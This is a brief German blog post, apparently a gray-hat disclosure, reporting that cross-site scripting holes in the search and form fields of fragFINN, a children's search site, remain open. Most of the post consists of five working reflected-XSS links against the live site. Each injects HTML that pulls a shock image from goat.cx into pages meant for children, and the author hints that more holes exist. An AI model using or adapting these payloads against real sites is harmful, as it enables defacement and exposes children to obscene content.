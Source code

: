 <html><body><p>Wie <a href="http://www.die-welt.net/index.php/blog/203/Frau_Merkel_fragt_Finn%2C_ob_er_Goatse_mag">am Donnerstag berichtet</a>, wollte ich wissen, ob <a href="http://www.fragfinn.de" target="_blank">Finn</a> Goatse mag. Offensichtlich nicht, denn das Loch in der Suche wurde gefixt. Naja, gefixt ist das falsche Wort, würgaraundet eher:<br>

<br>

<a href="http://www.fragfinn.de/kinderliste/suche.html?ql=&amp;zip=%22%3E%3Ch1%3ELeider%20immer%20noch%3C/h1%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E&amp;submitted=Abschicken" target="_blank">XSS in der erweiterten Suche nach Region (PLZ-Feld)</a><br>

<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (Namens-Feld)</a><br>

<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (EMail-Feld)</a><br>

<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (Namens-Feld)</a><br>

<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (EMail-Feld)</a><br>

<br>

Und das ist erst der Anfang, aber ich habe gerade keine Lust weiter zu forschen... Gute Nacht.</p></body></html>